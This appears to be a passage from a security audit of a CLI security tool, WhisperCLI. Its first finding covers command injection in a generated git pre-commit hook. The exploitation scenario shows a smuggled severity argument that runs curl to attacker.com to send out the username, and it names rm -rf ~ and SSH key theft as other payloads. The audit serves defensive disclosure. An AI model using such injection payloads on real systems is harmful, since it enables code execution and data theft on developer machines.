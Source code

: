 ### **Executive Summary**

The `WhisperCLI` tool, while intended to improve security, contains several critical vulnerabilities that could be exploited by an attacker. The most severe issues include a **Critical Command Injection** vulnerability during git hook installation, **Critical Sensitive Data Exfiltration** to third-party AI services, and **High-Severity vulnerabilities** related to insecure storage of sensitive information in scan histories. These flaws could lead to complete developer machine compromise, intellectual property theft, and exposure of production secrets.

Immediate remediation is required to secure the tool and protect its users.

---

### **Vulnerability Analysis**

#### Finding 1: OS Command Injection in Git Hook Installation

-   **Severity:** CRITICAL
-   **Confidence:** 1.0
-   **Vulnerability Class:** INJECTION FLAWS (OS Command Injection)

**Description:**
The `installGitHook` function creates a `pre-commit` shell script. It directly injects the `options.severity` value into a string that is later executed by `node -e`. An attacker who can control the command-line arguments passed to the `whisper install` command can inject arbitrary shell commands.

**Code Snippet:**
```javascript
// In installGitHook function:
const hookContent = `#!/bin/sh
# Whisper Security Guard
echo "🛡️ Whisper Guard: Checking commit for security issues..."
node -e "const { WhisperCLI } = require('./node_modules/whisper-cli/lib/index.js'); const whisper = new WhisperCLI(); whisper.runGuardCheck({ severity: '${options.severity || 'medium'}' }).then(() => process.exit(0)).catch(() => process.exit(1));"
`;
```

**Exploitation Scenario:**
An attacker convinces a developer to run the install command with a malicious severity flag. For example, in a project's `README.md` or a malicious script.

1.  The attacker crafts a malicious command:
    ```bash
    whisper install --severity "'; require('child_process').execSync('curl http://attacker.com/$(whoami)'); //"
    ```
2.  The `installGitHook` function executes, creating a `.git/hooks/pre-commit` file with the following malicious content:
    ```sh
    #!/bin/sh
    # ...
    node -e "const { WhisperCLI } = ...; whisper.runGuardCheck({ severity: ''; require('child_process').execSync('curl http://attacker.com/$(whoami)'); //' }).then(...).catch(...);"
    ```
3.  The next time the developer runs `git commit`, the hook executes. It first breaks out of the string context (`'`) and then executes the injected Node.js code, which exfiltrates the user's username to an attacker-controlled server. The attacker could replace this with any command, such as `rm -rf ~` or a command to steal SSH keys.
